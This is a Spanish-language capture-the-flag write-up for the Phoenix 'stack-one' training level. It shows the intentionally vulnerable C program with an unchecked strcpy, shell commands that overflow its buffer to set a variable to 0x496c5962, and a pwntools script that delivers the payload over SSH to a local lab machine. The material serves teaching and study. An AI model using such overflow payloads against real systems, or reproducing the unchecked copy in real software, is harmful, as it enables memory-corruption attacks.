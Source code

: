 ```yaml
---
layout: single
title: "Stack One"
permalink: /pwn/phoenix/stack-one/
parent: Phoenix
comments: true
excerpt: "Stack One"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

En este nivel se introduce el concepto de **modificar variables a valores específicos dentro de la memoria**, aprovechando un desbordamiento de buffer.  


##  Consejos útiles

- `man ascii` puede ayudarte a traducir valores hexadecimales a caracteres.  
- Ten en cuenta la [endianess](https://en.wikipedia.org/wiki/Endianness){:target="_blank"} de la arquitectura, ya que afecta el orden en el que se guardan los bytes en memoria.  

---

## Análisis del código

El programa copia el argumento del usuario dentro de un buffer de 64 bytes, pero no controla el tamaño con strcpy.
Esto nos permite escribir más allá del buffer y modificar la variable changeme, que está justo después en la memoria.

El objetivo es ponerle el valor 0x496c5962.


```c
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>    // Biblioteca para funciones de manejo de errores
#include <stdio.h>  // Biblioteca estándar para entrada/salida
#include <stdlib.h> // Biblioteca para funciones generales, como exit()
#include <string.h> // Biblioteca para funciones de manipulación de cadenas
#include <unistd.h> // Biblioteca para funciones del sistema POSIX, como sleep()

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define un mensaje constante que se mostrará al inicio del programa

int main(int argc, char **argv) { 
  // Punto de entrada del programa principal. Toma el número de argumentos y sus valores.

  struct { 
    char buffer[64];          // Define un espacio de memoria para una cadena de 64 bytes.
    volatile int changeme;    // Variable marcada como "volatile", para evitar optimizaciones. Su valor debe ser cambiado por el exploit.
  } locals;                   // Crea una estructura llamada 'locals' que agrupa las dos variables.

  printf("%s\n", BANNER); 
  // Imprime el mensaje de bienvenida almacenado en la constante BANNER.

  if (argc < 2) { 
    // Verifica que el usuario haya proporcionado al menos un argumento al programa.
    errx(1, "specify an argument, to be copied into the \"buffer\"");
    // Si no se proporciona un argumento, muestra un mensaje de error y finaliza el programa con el código de salida 1.
  }

  locals.changeme = 0; 
  // Inicializa la variable 'changeme' con el valor 0.

  strcpy(locals.buffer, argv[1]); 
  // Copia el argumento proporcionado (argv[1]) en el buffer 'buffer'.
  // Vulnerabilidad: No se verifica el tamaño del argumento, lo que puede provocar un desbordamiento de búfer.

  if (locals.changeme == 0x496c5962) { 
    // Comprueba si el valor de 'changeme' coincide con el objetivo: 0x496c5962.
    puts("Well done, you have successfully set changeme to the correct value");
    // Si el valor es correcto, imprime un mensaje de éxito.
  } else { 
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
    // Si el valor es incorrecto, imprime el valor actual de 'changeme' y el valor esperado.
  }

  exit(0); 
  // Finaliza el programa correctamente con el código de salida 0.
}

```

**Ejecución inicial**

Si ejecutamos el binario sin argumentos vemos que nos da un mensaje que nos dice: Especificar un argumento que se copiará en el «búfer».

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one 
Welcome to phoenix/stack-one, brought to you by https://exploit.education
stack-one: specify an argument, to be copied into the "buffer"
```

Con un solo carácter (A) vemos que changeme sigue en cero: nos da el valor de **0x00000000**

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one A
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962

```

**Desbordamiento del buffer**

Probamos llenando el buffer con 64 caracteres A, y luego añadimos BBBB en hexadecimal sería **0x42424242** y ya con esto logramos sobreescribir la variable changeme
```c
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print "A"*64'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x42424242, we want 0x496c5962

```

**Escribiendo el valor correcto**

El valor esperado es **0x496c5962** En little endian, debe enviarse como: **\x62\x59\x6c\x49** y con esto vemos que superamos el reto.

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c 'print "A" * 64 + "\x62\x59\x6c\x49"')
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

**Exploit con Pwntools**

Creamos un script en Python3 para automatizarlo:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/1_stack-one]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ # Define el payload
   5   │ payload = b"A" * 64 + b"\x62\x59\x6c\x49"
   6   │ 
   7   │ # Establece conexión SSH
   8   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   9   │ 
  10   │ #  Ejecuta el programa remoto con la primera condición
  11   │ process = ssh_connection.process(['/opt/phoenix/amd64/stack-one', payload])
  12   │ 
  13   │ # Captura y muestra la salida
  14   │ flag = process.recvall().decode()
  15   │ log.success("Output: " + flag)
  16   │ 
  17   │ # Cierra la conexión
  18   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/1_stack-one]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 554
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-one'!
[+] Receiving all data: Done (141B)
[*] Stopped remote process 'stack-one' on localhost (pid 554)
[+] Output: Welcome to phoenix/stack-one, brought to you by https://exploit.education
    Well done, you have successfully set changeme to the correct value

```

**Conclusión**

Este nivel muestra cómo un desbordamiento de buffer puede alterar el flujo normal de un programa, permitiendo modificar valores en memoria que originalmente no deberían cambiarse. El reto introduce la importancia de comprender la disposición de la pila y cómo un manejo inseguro de cadenas de caracteres abre la puerta a vulnerabilidades críticas.